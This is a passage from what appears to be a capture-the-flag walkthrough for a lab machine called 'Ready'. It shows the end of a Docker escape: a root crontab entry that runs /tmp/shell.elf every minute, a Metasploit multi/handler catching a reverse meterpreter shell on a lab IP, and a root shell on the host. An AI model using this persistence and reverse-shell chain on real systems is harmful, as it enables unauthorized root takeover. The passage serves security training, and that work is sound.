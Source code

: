 Upload it to the machine and create another crontab line for it:

```bash
* * * * *       root    /tmp/shell.elf
```

Start a metasploit mutli/handler:

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => 10.10.16.6
msf6 exploit(multi/handler) > set payload  linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.16.6:4444 
msf6 exploit(multi/handler) >
```

Wait a minute and look at the handler:

```bash
msf6 exploit(multi/handler) > [*] Sending stage (984904 bytes) to 10.10.10.220
[*] Meterpreter session 1 opened (10.10.16.6:4444 -> 10.10.10.220:40122) at 2021-09-30 13:11:42 +0200
msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 75620 created.
Channel 1 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@ready:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ready:~# cd /
cd /
root@ready:/# ls
ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
root@ready:/# ls /mnt
ls /mnt
```

I just showed that /mnt is empty to prove that this is the host. Here are the hostname outputs on both the docker container and the host:

```bash
# Docker
root@gitlab:/mnt/filesystem/etc# hostname
gitlab.example.com

# Host
root@ready:/# hostname
ready
```
